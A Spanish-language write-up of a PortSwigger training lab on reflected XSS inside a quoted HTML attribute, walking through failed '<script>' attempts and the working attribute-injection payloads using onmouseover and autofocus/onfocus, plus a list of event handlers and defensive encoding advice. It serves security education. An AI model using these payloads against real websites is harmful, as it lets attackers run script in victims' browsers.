


# Write-up - PortSwigger Lab 26

Voy a hacer un laboratorio de PortSwigger. El lab 26 de Cross-site scripting.

URL indicada:

```text
https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Laboratorio: XSS reflejado en un atributo con los caracteres `<` y `>` codificados en HTML

Este laboratorio contiene una vulnerabilidad de cross-site scripting (XSS) reflejado en la funcionalidad de búsqueda del blog, donde los caracteres de ángulo (`<` y `>`) están codificados en HTML.

Para resolver este laboratorio, realiza un ataque de XSS que inyecte un atributo y ejecute la función `alert`.

Introduce una cadena alfanumérica aleatoria en el cuadro de búsqueda y luego usa Burp Suite para interceptar la petición de búsqueda y enviarla a Burp Repeater.

Observa que la cadena aleatoria se ha reflejado dentro de un atributo entre comillas.

Sustituye tu entrada por el siguiente payload para escapar del atributo entre comillas e inyectar un manejador de eventos:

```html
"onmouseover="alert(1)
```

Verifica que la técnica ha funcionado haciendo clic derecho, seleccionando “Copy URL”, y pegando la URL en el navegador. Al mover el ratón sobre el elemento inyectado, debería activarse un `alert`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Nota importante sobre el enunciado y las capturas

En la primera captura aparece el título:

```text
DOM XSS in innerHTML sink using source location.search
```

Sin embargo, la explicación, el comportamiento observado y el payload que resuelve el laboratorio corresponden a la técnica de XSS reflejado dentro de un atributo HTML, donde `<` y `>` están codificados y el ataque se realiza inyectando atributos.

Por eso el write-up desarrolla exactamente lo que has probado: el input cae dentro de un atributo `value=""`, el payload clásico `<script>` queda codificado, y la solución es cerrar el atributo e inyectar `autofocus` + `onfocus`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Por qué este laboratorio es interesante

Este laboratorio es fascinante porque nos enseña que no necesitamos las etiquetas `<` y `>` para ejecutar JavaScript.

Muchos desarrolladores creen que si bloquean o codifican los paréntesis angulares, el XSS es imposible.

Este laboratorio demuestra lo contrario.

Bloquear `<` y `>` evita que creemos etiquetas nuevas como:

```html
<script>
```

pero no evita que podamos manipular una etiqueta que ya existe si nuestro input cae dentro de un atributo HTML.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# XSS mediante inyección de atributos

## 1. El escenario: la “jaula” de comillas

Cuando buscas algo en este blog, tu entrada no se muestra como texto plano en la página, sino que se inserta dentro del valor de un atributo HTML.

Imagina que el código del servidor es este:

```html
<input type="text" placeholder="Buscar..." value="TU_ENTRADA_AQUÍ">
```

Si buscas:

```text
hola
```

el HTML resultante es:

```html
<input type="text" value="hola">
```

En ese caso, `hola` no está en un párrafo ni en un título.

Está dentro de:

```html
value="hola"
```

Eso significa que el contexto del ataque es un atributo HTML.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 2. El problema: los caracteres `<` y `>` están bloqueados o codificados

Si intentas usar el payload clásico:

```html
<script>alert(1)</script>
```

el servidor lo codifica:

```text
< se convierte en &lt;
> se convierte en &gt;
```

Resultado inofensivo:

```html
<input type="text" value="&lt;script&gt;alert(1)&lt;/script&gt;">
```

El navegador simplemente muestra el texto:

```html
<script>alert(1)</script>
```

pero no lo ejecuta.

El ataque clásico ha fallado.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 3. La solución: escapar del atributo

En lugar de intentar crear una etiqueta nueva, lo cual requiere `<` y `>`, vamos a manipular la etiqueta que ya existe.

El input está aquí:

```html
<input value="AQUÍ">
```

Entonces el objetivo es cerrar el atributo `value` antes de tiempo.

Para eso usamos una comilla doble:

```text
"
```

Después añadimos un atributo nuevo, por ejemplo:

```html
onmouseover="alert(1)
```

Payload conceptual:

```html
"onmouseover="alert(1)
```

La primera comilla cierra el atributo `value`.

Después `onmouseover` queda como atributo nuevo.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 4. Transformación del HTML

Lo que el programador esperaba:

```html
<input type="text" value="[Dato del usuario]">
```

Lo que el atacante intenta conseguir:

```html
<input type="text" value="" onmouseover="alert(1)">
```

¿Cómo lo interpreta el navegador?

```text
type="text"                 atributo original
value=""                    atributo original cerrado por nuestra comilla
onmouseover="alert(1)"      atributo inyectado
```

Con esto hemos creado un manejador de eventos sin usar etiquetas nuevas.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 5. Por qué funciona

Al mover el ratón sobre el cuadro de búsqueda, el navegador detecta el evento:

```html
onmouseover
```

Como cree que ese atributo forma parte legítima del HTML de la página, ejecuta el JavaScript asociado:

```javascript
alert(1)
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Bypass de codificación HTML

La codificación de `<` y `>` solo previene la creación de nuevas etiquetas.

No previene ataques si el input se refleja dentro de un atributo HTML y las comillas no están codificadas correctamente.

Si puedes cerrar una comilla del atributo, puedes inyectar nuevos atributos.

Otros eventos útiles si `onmouseover` falla:

```html
onfocus="alert(1)" autofocus
onclick="alert(1)"
onchange="alert(1)"
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Prevención correcta

Para evitar esto, el desarrollador no solo debe codificar los paréntesis angulares.

También debe codificar:

```text
"
'
&
```

Si la comilla doble `"` se hubiera convertido en:

```html
&quot;
```

nuestro payload habría quedado como texto dentro del atributo:

```html
<input value="&quot; autofocus onfocus=alert(1) x=&quot;">
```

El navegador no habría roto la estructura HTML y no se habría ejecutado nada.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Manejadores de eventos en JavaScript

Los términos:

```text
onmouseover
onfocus
onchange
onclick
onerror
onload
```

son manejadores de eventos (`Event Handlers`) en JavaScript.

Imagina que el HTML es el cuerpo de la página y JavaScript es el cerebro.

Los manejadores de eventos son los sentidos que le dicen al cerebro:

```text
Oye, acaba de pasar algo, reacciona.
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 1. `onmouseover`

Este evento se dispara cuando el puntero del ratón entra en el área física del elemento.

No necesitas hacer clic.

Solo con que el usuario mueva el ratón por encima del elemento, el código se ejecuta.

Uso en XSS:

```html
<input onmouseover="alert(1)">
```

Es común porque puede activarse de forma accidental.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 2. `onfocus` + `autofocus`

Esta combinación es muy potente porque no requiere mover el ratón ni hacer click.

## `onfocus`

Se dispara cuando un elemento recibe foco.

Ejemplo:

```html
<input onfocus="alert(1)">
```

## `autofocus`

Le dice al navegador:

```text
Cuando cargue la página, pon el cursor directamente aquí.
```

Combinación:

```html
<input autofocus onfocus="alert(1)">
```

Flujo:

1. La página carga.
2. `autofocus` activa el input.
3. `onfocus` detecta esa activación.
4. Se ejecuta `alert(1)`.

Resultado:

```text
XSS automático al cargar la página.
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 3. `onchange`

Este evento se dispara cuando el contenido de un elemento ha sido modificado y el usuario quita el foco de él.

Ejemplo:

```html
<input onchange="alert(1)">
```

Es menos directo porque requiere más interacción del usuario, pero puede ser útil si otros eventos están bloqueados.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Tabla comparativa de disparadores

| Evento | Cuándo se activa | Nivel de peligro |
|---|---|---|
| `onclick` | Al hacer clic con el ratón | Medio |
| `onmouseover` | Al pasar el cursor por encima | Alto |
| `onerror` | Cuando falla la carga de un recurso | Crítico |
| `onfocus` | Al seleccionar un campo de texto | Crítico si se usa con `autofocus` |
| `onload` | Al terminar de cargar un elemento | Crítico |

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Vamos a llevar a cabo esto de forma práctica

Le damos a empezar laboratorio y se nos abre la siguiente página web:

```text
https://0ad5003c0317f9eb8087b2fc00ca00f3.web-security-academy.net/
```

La página web tiene el aspecto de la imagen 1, es un blog con fotos.



**Referencia a la imagen 1:** Página inicial del laboratorio. Se observa el blog con el buscador, que será el punto donde vamos a introducir los payloads.

Como ya nos dice el laboratorio, contiene una vulnerabilidad de XSS reflejado en la funcionalidad de búsqueda del blog, donde los caracteres de ángulo `<` y `>` están codificados en HTML.

Para resolver este laboratorio hay que realizar un ataque de XSS que inyecte un atributo y ejecute la función `alert`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Primer intento: payload clásico `<script>`

En el buscador introducimos:

```html
<script>alert(1)</script>
```

Al darle a Enter no genera el popup.

Esto indica que el payload clásico no funciona directamente.

Para analizarlo más en detalle, inspeccionamos el código haciendo F12.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# ¿Para qué sirve F12?

La tecla F12 en el navegador web abre las Herramientas de Desarrollador.

Permite:

- inspeccionar el código HTML;
- ver el DOM real;
- depurar errores;
- revisar atributos;
- ver la consola;
- analizar la red;
- comprobar cómo el navegador interpreta la página.

En este laboratorio es clave porque necesitamos ver exactamente dónde cae nuestro input.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Inspección del HTML generado

Buscamos un poco y lo interesante es esto:

```html
<input type="text" placeholder="Search the blog..." name="search" value="&lt;script&gt;alert(1)&lt;/script&gt;">
```

¿Qué significa realmente?

Esto:

```html
&lt;script&gt;alert(1)&lt;/script&gt;
```

no es código real.

Es texto codificado.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Qué son `&lt;` y `&gt;`

| Código | Significa |
|---|---|
| `&lt;` | `<` |
| `&gt;` | `>` |

Lo que enviamos:

```html
<script>alert(1)</script>
```

La web lo convierte en:

```html
&lt;script&gt;alert(1)&lt;/script&gt;
```

El navegador lo ve como texto, no como código ejecutable.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Por qué no se ejecuta

No se ejecuta porque:

1. Está dentro de un atributo:

```html
value="AQUÍ"
```

2. Está escapado o codificado:

```html
&lt;script&gt;
```

La web está convirtiendo:

```text
< -> &lt;
> -> &gt;
```

Eso evita que podamos crear una etiqueta `<script>` real.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Segundo intento: intentar romper con `"><script>`

Probamos algo como:

```html
"><script>alert(1)</script>
```

Pero no funciona.

Al inspeccionarlo, podemos ver algo similar a:

```html
<input type="text" placeholder="Search the blog..." name="search" value="" &gt;&lt;script&gt;alert(1)&lt;="" script&gt;"="">
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Por qué ese intento no funciona

## Paso 1: dónde está tu input

El input del usuario va aquí:

```html
value="AQUÍ"
```

Ese es tu espacio.

## Paso 2: tú intentaste meter

```html
"><script>alert(1)</script>
```

## Paso 3: el servidor lo rompe con encoding

Convierte:

```html
<script>
```

en:

```html
&lt;script&gt;
```

## Paso 4: cómo queda realmente

Queda algo como:

```html
value="" &gt;&lt;script&gt;alert(1)&lt;="" script&gt;"="">
```

## Problema 1

`&lt;script&gt;` no es HTML real.

Es texto.

El navegador no lo ejecuta.

## Problema 2

Aunque cerraste el atributo con `"`, lo siguiente no crea una etiqueta limpia.

Queda HTML roto o inválido.

El navegador intenta arreglarlo, pero no ejecuta nada.

## Problema 3

Sigues sin poder usar `<script>` porque `<` y `>` están codificados.

Conclusión:

```text
No podemos depender de etiquetas nuevas.
```

Necesitamos algo que:

```text
no use < ni >
```

y que se ejecute dentro de la etiqueta existente.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Payload final utilizado

Ahora metemos:

```html
" autofocus onfocus=alert(1) x="
```

Esto genera el popup de la imagen 2.



**Referencia a la imagen 2:** Popup `alert(1)` ejecutado correctamente tras inyectar atributos dentro del campo de búsqueda.

Esto significa que hemos solucionado el laboratorio.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Cómo queda al inspeccionarlo con F12

Al inspeccionarlo, queda así:

```html
<input type="text" placeholder="Search the blog..." name="search" value="" autofocus="" onfocus="alert(1)" x="">
```

Este resultado es perfecto para el ataque.

La etiqueta `<input>` ya existía.

Nosotros hemos añadido atributos nuevos.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Análisis del payload

Payload:

```html
" autofocus onfocus=alert(1) x="
```

## Primera parte: `"`

La primera comilla cierra el atributo original:

```html
value=""
```

Esto nos saca del control del atributo `value`.

## Segunda parte: `autofocus`

Inyectamos:

```html
autofocus
```

Este atributo hace que el input reciba foco automáticamente al cargar la página.

## Tercera parte: `onfocus=alert(1)`

Inyectamos:

```html
onfocus=alert(1)
```

Este atributo es el manejador de eventos.

Cuando el input recibe foco, ejecuta:

```javascript
alert(1)
```

## Cuarta parte: `x="`

Inyectamos:

```html
x="
```

Esto sirve para arreglar el HTML y absorber la comilla sobrante que el servidor iba a poner al final.

Así queda:

```html
x=""
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Por qué este payload sí funciona

Funciona porque:

```text
No usa <script>
No usa < ni >
Usa atributos HTML válidos
Está en contexto de atributo
Cierra value=""
Inyecta autofocus
Inyecta onfocus=alert(1)
Arregla el cierre con x=""
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Flujo exacto de ejecución

1. La página carga.
2. El input contiene el atributo `autofocus`.
3. El navegador enfoca el input automáticamente.
4. Al recibir foco, se dispara `onfocus`.
5. `onfocus` ejecuta `alert(1)`.
6. Aparece el popup.
7. PortSwigger marca el laboratorio como resuelto.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Clave total

Esto funciona porque no intentamos crear una etiqueta nueva.

En su lugar, usamos la etiqueta existente.

La aplicación ya tiene:

```html
<input ... value="AQUÍ">
```

Nosotros convertimos eso en:

```html
<input ... value="" autofocus onfocus=alert(1) x="">
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Frase clave

```text
XSS no es siempre meter <script>. XSS es entender el contexto y romperlo.
```

En este caso:

```text
Contexto = atributo HTML
Estrategia = cerrar comilla e inyectar eventos
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Laboratorio resuelto

Después de ejecutar el payload, el laboratorio aparece como resuelto.


**Referencia a la imagen 3:** Banner de PortSwigger indicando que el laboratorio está solucionado.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Resumen técnico final

Contexto vulnerable:

```html
<input type="text" name="search" value="INPUT">
```

Payload clásico que falla:

```html
<script>alert(1)</script>
```

Motivo:

```text
< y > se codifican como &lt; y &gt;
```

Payload con `<script>` que también falla:

```html
"><script>alert(1)</script>
```

Motivo:

```text
<script> queda codificado y no se crea una etiqueta real
```

Payload correcto:

```html
" autofocus onfocus=alert(1) x="
```

HTML final:

```html
<input type="text" placeholder="Search the blog..." name="search" value="" autofocus="" onfocus="alert(1)" x="">
```

Resultado:

```text
autofocus da foco al input
onfocus ejecuta alert(1)
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Defensa correcta

La aplicación debería codificar correctamente la salida según el contexto.

Dentro de atributos HTML hay que codificar:

```text
"
'
<
>
&
```

Especialmente importante:

```text
"
```

porque si la comilla no se codifica, el atacante puede cerrar el atributo.

También se deberían aplicar:

- output encoding contextual;
- validación de entrada;
- sanitización donde proceda;
- plantillas seguras;
- Content Security Policy como defensa adicional;
- evitar insertar input del usuario dentro de atributos sin codificar.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Conclusión

Este laboratorio demuestra que codificar `<` y `>` no es suficiente.

El payload clásico:

```html
<script>alert(1)</script>
```

no funciona porque queda codificado.

Pero como el input cae dentro de un atributo HTML entre comillas, podemos cerrar el atributo e inyectar atributos nuevos.

Payload final:

```html
" autofocus onfocus=alert(1) x="
```

El resultado es:

```html
<input value="" autofocus onfocus=alert(1) x="">
```

`autofocus` enfoca el input automáticamente.

`onfocus` ejecuta:

```javascript
alert(1)
```

**Laboratorio resuelto.**
